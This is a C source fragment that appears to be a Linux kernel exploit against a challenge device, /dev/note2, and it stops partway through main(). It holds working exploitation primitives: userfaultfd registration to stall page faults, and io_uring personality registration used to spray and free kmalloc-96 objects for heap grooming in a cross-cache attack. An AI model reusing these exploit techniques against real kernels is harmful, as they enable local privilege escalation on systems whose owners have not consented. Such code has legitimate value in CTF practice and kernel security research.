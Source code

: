 ```c 
            fatal("ioctl(UFFDIO_API)");
        }
    }

    pthread_create(&userfault_pthread, NULL, userfault_thread, NULL);

    puts("userfaultfd initialized");
}

// Register a region with userfaultfd and make it inaccessible. The region must
// be page-aligned and the size must be a multiple of the page size.
static void userfaultfd_register(void *addr, size_t len)
{
    assert(((uintptr_t)addr % 0x1000) == 0);
    assert(len >= 0x1000 && len % 0x1000 == 0);

    struct uffdio_register reg = {
        .range = {
            .start = (uintptr_t)addr,
            .len = len,
        },
        .mode = UFFDIO_REGISTER_MODE_MISSING,
    };
    if (ioctl(userfault_fd, UFFDIO_REGISTER, &reg) < 0)
    {
        fatal("ioctl(UFFDIO_REGISTER)");
    }
}

#define OBJS_PER_SLAB 32
#define CPU_PARTIAL 30


int uring_spray_fd;

static int64_t cc_alloc_kmalloc96()
{
    /* This will allocate a io uring identity in kmalloc-96. It can be repeated an arbitrary amount of times for a single uring instance. */
    int res = syscall(SYS_io_uring_register, uring_spray_fd, IORING_REGISTER_PERSONALITY, 0, 0);
    if (res < 0)
        fatal("alloc: io_uring_register() failed");
    
    return res;
}

static void cc_free_kmalloc96(int64_t personality)
{
    if (syscall(SYS_io_uring_register, uring_spray_fd, IORING_UNREGISTER_PERSONALITY, 0, personality) < 0)
        fatal("free: io_uring_register() failed");
}

int main(void)
{
    pthread_t edit_thread;

    pin_cpu(0);
    rlimit_increase(RLIMIT_NOFILE);

    if ((note_fd = open("/dev/note2", O_RDWR)) < 0)
        fatal("Failed to open note fd");

```